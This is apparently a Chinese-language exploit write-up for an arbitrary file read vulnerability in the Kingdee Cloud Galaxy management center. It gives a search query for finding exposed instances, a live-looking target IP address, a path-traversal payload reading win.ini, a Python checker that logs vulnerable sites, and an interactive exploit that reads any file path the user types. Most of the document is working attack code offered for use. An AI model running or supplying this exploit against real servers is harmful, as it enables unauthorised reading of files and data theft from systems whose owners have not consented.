 ## 一、资产搜索

```
title="金蝶云星空 管理中心"
```

## 二、网站测试

```
http://47.111.162.10:8000
```

## 三、验证漏洞

```
/CommonFileServer/c:/windows/win.ini
```

![image-20240914202429516](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914202429516.png)

## 四、POC

```
def poc(target):
    payload = "/CommonFileServer/c:/windows/win.ini"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "fonts" in res2.text:
                with open("result.txt","a",encoding="utf-8") as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    return True
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print(f"该网站[+]{target}有问题，请手动测试！！")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def exp(target):
    while True:
        content = input("请输入要查看的路径，从C:目录开始输入(q退出)\n>>>>>>>>>>>>>>>>>>")
        payload = "/CommonFileServer/"
        res1 = requests.get(url=target, verify=False,timeout=5)
        if content == "q":
            exit()
        if res1.status_code == 200:
            res2 = requests.get(url=target + payload +content, verify=False, timeout=5)
            print(res2.text)
        else:
            print("该文件不存在，请重新输入！！")
```

## 六、测试结果

![image-20240914202608742](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914202608742.png)

![image-20240914202636791](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914202636791.png)